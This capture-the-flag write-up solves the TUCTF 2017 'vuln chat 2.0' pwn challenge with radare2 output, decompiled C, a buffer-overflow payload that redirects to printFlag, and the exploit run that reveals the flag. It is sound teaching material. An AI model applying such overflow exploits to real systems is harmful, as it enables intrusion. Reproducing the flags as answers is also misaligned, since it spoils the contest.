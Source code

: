 # vuln chat 2.0
100 point  
  
Djinn has got some new intel for us. And I think he's giving us a second chance. But he will only speak with you. Let's see what he's got to say.  
  
nc vulnchat2.tuctf.com 4242  
  
[vuln-chat2.0](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat%202.0/vuln-chat2.0) - md5: d0fe412783aaaeeddc2a6504d6dff631  
libc.so.6 - md5: f71e966c590bfb1f53ea3410f8b489d4  

------------------

```radare2
[0x08048460]> iz
vaddr=0x08048750 paddr=0x00000750 ordinal=000 sz=50 len=49 section=.rodata type=ascii string=----------- Welcome to vuln-chat2.0 -------------
vaddr=0x08048782 paddr=0x00000782 ordinal=001 sz=22 len=21 section=.rodata type=ascii string=Enter your username:
vaddr=0x08048798 paddr=0x00000798 ordinal=002 sz=5 len=4 section=.rodata type=ascii string=%15s
vaddr=0x0804879d paddr=0x0000079d ordinal=003 sz=13 len=12 section=.rodata type=ascii string=Welcome %s!\n
vaddr=0x080487aa paddr=0x000007aa ordinal=004 sz=22 len=21 section=.rodata type=ascii string=Connecting to 'djinn'
vaddr=0x080487c0 paddr=0x000007c0 ordinal=005 sz=37 len=36 section=.rodata type=ascii string=--- 'djinn' has joined your chat ---
vaddr=0x080487e8 paddr=0x000007e8 ordinal=006 sz=67 len=66 section=.rodata type=ascii string=djinn: You've proven yourself to me. What information do you need?
vaddr=0x0804882b paddr=0x0000082b ordinal=007 sz=5 len=4 section=.rodata type=ascii string=%s:
vaddr=0x08048830 paddr=0x00000830 ordinal=008 sz=32 len=31 section=.rodata type=ascii string=djinn: Alright here's you flag:
vaddr=0x08048850 paddr=0x00000850 ordinal=009 sz=30 len=29 section=.rodata type=ascii string=djinn: flag{1_l0v3_l337_73x7}
vaddr=0x08048870 paddr=0x00000870 ordinal=010 sz=31 len=30 section=.rodata type=ascii string=djinn: Wait thats not right...
vaddr=0x0804888f paddr=0x0000088f ordinal=011 sz=13 len=12 section=.rodata type=ascii string=Ah! Found it
vaddr=0x0804889c paddr=0x0000089c ordinal=012 sz=20 len=19 section=.rodata type=ascii string=/bin/cat ./flag.txt
vaddr=0x080488b0 paddr=0x000008b0 ordinal=013 sz=35 len=34 section=.rodata type=ascii string=Don't let anyone get ahold of this
```
```radare2
[0x08048460]> afl~printFlag
0x08048672    1 65           sym.printFlag
```
```C
int doThings()
{
  char buf; // [sp+1h] [bp-27h]@1
  char v2; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
`char buf; // [sp+1h] [bp-27h]@1`  
`read(0, &buf, 0x2Du);`  
`payload = "1" * (0x27 + 4) + printFlag()`  
```bash
# python exploit.py
[+] Opening connection to vulnchat2.tuctf.com on port 4242: Done
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
TUCTF{0n3_by73_15_4ll_y0u_n33d}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$
```
